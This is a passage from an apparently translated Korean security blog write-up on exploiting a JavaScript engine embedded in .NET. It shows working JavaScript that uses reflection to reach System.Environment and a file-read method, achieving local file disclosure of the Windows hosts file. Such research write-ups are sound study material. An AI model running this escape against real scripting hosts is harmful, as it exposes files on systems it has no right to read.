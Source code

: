 ![2024-06-30-ExploitingaJavaScriptEngineforNET_19](/assets/img/2024-06-30-ExploitingaJavaScriptEngineforNET_19.png)

에러가 발생했습니다! 이 에러의 원인은 Invoke 함수가 JavaScript 객체가 아닌 .Net 객체를 매개변수로 취한다는 것입니다. 따라서 함수에 경로가 될 .Net 객체나 .Net 문자열 배열이 필요합니다.

그래서 열거로 돌아가서, 인스턴스를 가지고 있지 않기 때문에 null이어야 하는 정적 함수를 호출해야 하며, 매개변수를 가져서 하나의 요소로 이루어진 문자열 배열을 반환해야 합니다.

몇 가지 열거를 통해 System.Environment 클래스의 GetCommandLineArgs 함수가 이 작업을 수행한다는 것을 찾아냈습니다. 그러니 호출하여 문자열 배열을 가져오겠습니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1898504329"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
var objectClass = this.ProcessChat_Helper.GetType().BaseType;
var typesArray = objectClass.Assembly.GetTypes();
var len = typesArray.GetLength(0);
var types = [];
for (let i = 0; i < len; i++) {
  var typeName = typesArray.GetValue(i).ToString();
  if (typeName == "System.Environment") {
    var typeIndex = i;
    break;
  }
}
var envType = typesArray.GetValue(typeIndex); // typeIndex = 128
var oneElemArr = envType.GetMethod("GetCommandLineArgs").Invoke(null, null).GetValue(0);
oneElemArr;
```

<img src="/assets/img/2024-06-30-ExploitingaJavaScriptEngineforNET_20.png" />

이 배열을 사용하여 SetValue(Value, index)로 요소를 원하는 파일 경로로 설정하고 invoke 함수에 전달하면 Local File Disclosure을 얻을 수 있습니다.

```js
var objectClass = this.ProcessChat_Helper.GetType().BaseType;
var typesArray = objectClass.Assembly.GetTypes();
var fileReadMethods = typesArray.GetValue(2008).GetMethods();
var envType = typesArray.GetValue(128);
var oneElemArr = envType.GetMethod("GetCommandLineArgs").Invoke(null, null);
oneElemArr.SetValue("C:\\Windows\\System32\\drivers\\etc\\hosts", 0);
fileReadMethods.GetValue(49).Invoke(null, oneElemArr);
```

